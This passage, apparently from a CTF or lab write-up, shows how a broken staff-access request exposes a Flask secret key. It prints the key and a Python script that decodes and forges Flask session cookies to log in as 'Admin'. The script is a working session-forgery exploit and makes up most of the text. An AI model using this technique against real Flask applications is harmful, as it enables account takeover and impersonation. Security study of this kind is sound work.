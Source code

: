 Although users are prompted to enter their own username in order to gain staff privileges, it seems that any user is able to gain staff privileges by simply requesting staff access with their username instead. This means that normal users are able to get staff access through following the link, as evident in the image below where sensitive staff files have now been added to a normal user's account (after requesting staff access for their username). 

![Files 5](images/files5.png)

Finding the Flask secret key of '$hallICompareTHEE2aSummersday' in the staff_flask_secret_key file, an attacker is now able to login as any desired user. Using the Python script below, an attacker is able to generate a session cookie for another user using the Flask secret key, and use this cookie to impersonate and login as them.

```python
# Reference: https://ctftime.org/writeup/11812
import hashlib
from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

KEY = '$hallICompareTHEE2aSummersday'

def decode_flask_cookie(secret_key, cookie_str):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.loads(cookie_str)


def encode_flask_cookie(secret_key, cookie):
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    return s.dumps(cookie)


if __name__ == '__main__':
    # Any cookie - determine structure of decoded payload
    cookie = 'eyJyb2xlIjp7IiBiIjoiVTNSaFptWT0ifSwidXNlcm5hbWUiOiJ0ZXN0In0.YM3-0Q.Wr7mv0JrqapDElKfzFs2Vp7caHM'
    cookie_val = (decode_flask_cookie(KEY, cookie))
    print(cookie_val)
    # Generate cookie to login as any user with specified role
    new_cookie = dict(cookie_val)
    new_cookie['username'] = 'Admin'
    new_cookie['role'] = b'Admin'
```